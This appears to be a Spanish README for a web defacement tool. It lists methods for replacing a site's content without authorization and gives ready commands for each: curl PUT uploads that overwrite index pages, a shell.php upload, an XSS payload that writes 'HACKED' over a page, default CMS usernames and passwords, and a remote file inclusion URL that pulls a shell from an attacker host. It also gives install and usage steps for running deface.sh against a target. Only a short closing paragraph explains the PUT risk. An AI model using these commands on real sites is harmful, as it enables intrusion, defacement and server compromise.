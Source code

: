 ## Defacement web; 

modifica o reemplaza el contenido de un sitio web sin autorización

## Metodos mas usados para deface web 

### 1.- Metodo PUT

curl -X PUT -d "@index25.htm" http://victima.com/index.htm

### 2.-Metodo SQLi Inyección SQL

curl -s "${URL}${VULN_PATH}${TEST_PAYLOAD}

### 3.- Metodo upload, subir una shell.php

curl -F "file=@shell.php" http://victima.com/upload

### 4.- Metodo XSS

<script>document.body.innerHTML = "HACKED";</script>

### 5 - Metodo Vulnerabilidades en CMS (WordPress, Joomla, Drupal), credenciales debiles

Usuarios: admin, wordpress, drupal, jomla, manager, administrator .. ,-  Claves: admin, joomla, drupal, wordpress, 123456, password

### 6.- Metodo remote File Inclusion (RFI) / Local File Inclusion (LFI)

http://victima.com/index.php?page=http://atacante.com/shell.php

#

## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index25.htm" "https://IP/index25.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.


http://www.hackingyseguridad.com/secure/index2.htm

